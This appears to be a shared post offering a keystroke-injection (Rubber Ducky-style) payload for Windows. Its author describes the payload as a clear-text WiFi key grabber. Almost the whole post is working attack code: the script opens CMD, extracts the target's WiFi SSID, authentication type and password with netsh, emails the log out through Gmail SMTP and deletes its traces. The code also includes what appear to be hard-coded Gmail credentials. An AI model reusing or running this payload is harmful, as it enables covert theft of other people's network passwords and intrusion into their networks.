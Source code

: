 This payload:

    Opens CMD
    Finds the key (password) of the WiFi the target is connected to
    Saves the SSID, Network type, Authentication and the key to Log.txt
    And emails Log.txt via gmail

Change the following things;

    ACCOUNT: Your gmail account
    PASSWORD: Your gmail password
    RECEIVER: The email you want to send Log.txt to

If you have any suggestions please tell me.
Code:

REM Author: Siem  
REM Version: 1  
REM Description: Clear text WiFi key grabber  
```
DELAY 2000
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000
REM --> Change directory (you can change this to something else to make less visible)
STRING cd "%USERPROFILE%\Desktop"
ENTER
REM --> Get SSID
STRING for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "B"') do set SSID=%A
ENTER
REM --> Get network type
STRING netsh wlan show profiles %SSID% | findstr "Network type" | findstr /v "broadcast" | findstr /v "Radio">Temp.txt
ENTER
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" Temp.txt') do set NETTYPE=%A
ENTER
REM --> Get authentication
STRING netsh wlan show profiles %SSID% | findstr "Authentication">Temp.txt
ENTER
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" Temp.txt') do set AUTH=%A
ENTER
REM --> Get key
STRING netsh wlan show profiles %SSID% key=clear | findstr "Key Content">Temp.txt
ENTER
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" Temp.txt') do set KEY=%A
ENTER
REM --> Delete Temp.txt
STRING del Temp.txt
ENTER
REM --> Create Log.txt
STRING echo SSID: %SSID%>>Log.txt & echo Network type: %NETTYPE%>>Log.txt & echo Authentication: %AUTH%>>Log.txt & echo Password: %KEY%>>Log.txt
ENTER
REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('earlreallong99@gmail.com', 'Tempy22Lily');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'earlreallong99@gmail.com'
ENTER
STRING $ReportEmail.To.Add('reallong99@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi'
ENTER
STRING $ReportEmail.Body = 'The log is attached!' 
ENTER
STRING $ReportEmail.Attachments.Add('Log.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```